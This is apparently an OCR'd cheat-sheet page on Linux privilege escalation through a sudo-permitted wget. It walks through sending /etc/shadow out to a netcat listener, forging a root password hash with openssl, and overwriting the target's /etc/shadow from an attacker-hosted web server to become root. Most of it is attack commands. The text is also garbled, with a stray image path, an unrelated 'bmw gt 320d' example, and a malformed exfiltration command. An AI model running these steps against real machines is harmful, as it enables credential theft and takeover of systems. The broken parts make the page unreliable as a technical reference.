 # Sudo Wget Privilege Escalation#

##### Example:
```markdown 
bmw gt 320d 
```

The "sudo wget" command may be vulnerable to privilege escalation (PrivEsc).

Investigation
sudo -l

(root) NOPASSWD: /usr/bin/wget
If we can execute "wget" as root, we may be able to escalate privileges.


Modify /etc/shadow
Get "/etc/shadow" and generate a new hash passwd, then set it to the shadow file, next upload it.
That changes the root password.

1. Get the Content of /etc/shadow
To see the content of /etc/shadow, we can use netcat listener.
So First, start a listener in local machine.
nc -lvnp 4444
In target machine, display the contents of the "/etc/shadow" to the local machine using the following command.
sudo /usr/bin/wget --post-file=/etc/shadow <local-ip> 4444
We should see the content in our local machine via netcat listener.
Copy the content.

2. Create a New Shadow File
We create a new shadow file in local. The shadow file will be stored into the target /etc/shadow later.
vim shadow.txt
In vim editor (or nano, vi, etc.), paste the content of /etc/shadow which we've copied in the previous section.

3. Create a New Root User Password and Add to Shadow File
Generate a new hash password for a new root user in local machine.
 -6: SHA512
openssl passwd -6 -salt 'salt' 'password'
Copy the generated password and paste it at the password of the root user into the "shadow.txt".
As a result, the contents of the "shadow.txt" should look like this:
root:$6$salt$IxDD...DCy.g.:18195:0:99999:7:::
...

4. Transfer the Content of the Shadow File
To put the shadow.txt into the target machine, start web server for hosting this file.
python3 -m http.server 8000
Download this file into the /etc/shadow in remote machine. To do that, we need to run it as root.
sudo /usr/bin/wget http://<local-ip>:8000/shadow.txt -O /etc/shadow 
Finally, you can switch to the root user with the password we've created.
su root
